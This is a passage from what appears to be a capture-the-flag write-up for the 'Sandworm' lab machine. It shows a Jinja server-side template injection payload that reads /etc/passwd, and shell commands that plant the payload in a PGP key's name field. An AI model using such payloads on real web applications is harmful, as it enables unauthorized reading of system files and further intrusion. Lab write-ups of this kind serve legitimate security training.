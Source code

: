 ![Calculation executed](/assets/img/Sandworm/Sandworm_04.png)

So now we know it actually worked. The next step is to try and get a more serious payload working. While searching for payloads that worked i was able to read the passwd file using the following payload. The fact that this payload worked was also a sign that the template engine used was **Jinja**.

```
{% raw %}
{{ request.__class__._load_form_data.__globals__.__builtins__.open("/etc/passwd").read() }}
{% endraw %}
```

To create a working keypair using this payload execute the following commands

```bash
{% raw %}
python keygen.py -p test123 -n "{{ request.__class__._load_form_data.__globals__.__builtins__.open('/etc/passwd').read() }}" -e atlas@ssa.htb
python sign.py -c keypgp_uwu.pub.asc -k keypgp_uwu.key.asc -p test123 -m "test"
{% endraw %}
```

